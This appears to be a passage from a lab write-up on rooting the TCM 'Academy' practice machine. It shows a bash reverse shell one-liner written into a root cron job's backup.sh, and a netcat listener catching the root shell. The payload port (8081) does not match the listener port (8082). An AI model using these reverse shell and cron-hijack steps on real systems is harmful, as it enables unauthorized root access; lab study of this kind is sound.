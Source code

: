 
We can indeed see that the backup is running

![[Pasted image 20240706021821.png]]


Now we can use the backup.sh to hack into the root
To hack the root, search reverse shell bash one line in your browser

Here is the link:

https://academy.tcm-sec.com/courses/1152300/lectures/34117488

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

```

COpy the reverse shell in the script of grimmie backup.sh

```
grimmie@academy:~$ cat backup.sh 
#!/bin/bash

rm /tmp/backup.zip
zip -r /tmp/backup.zip /var/www/html/academy/includes
chmod 700 /tmp/backup.zip
grimmie@academy:~$ vi backup.sh
grimmie@academy:~$ vi backup.sh


---changed to ----


grimmie@academy:~$ cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/192.168.64.4/8081 0>&1
grimmie@academy:~$ 

```

Now we will just wait for the cron job to execute the backup as root. As you below, we exploit the roor when the cron job back.sh run as root

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 8082
listening on [any] 8082 ...
connect to [192.168.64.4] from (UNKNOWN) [192.168.64.3] 42144
bash: cannot set terminal process group (16166): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~# 

```
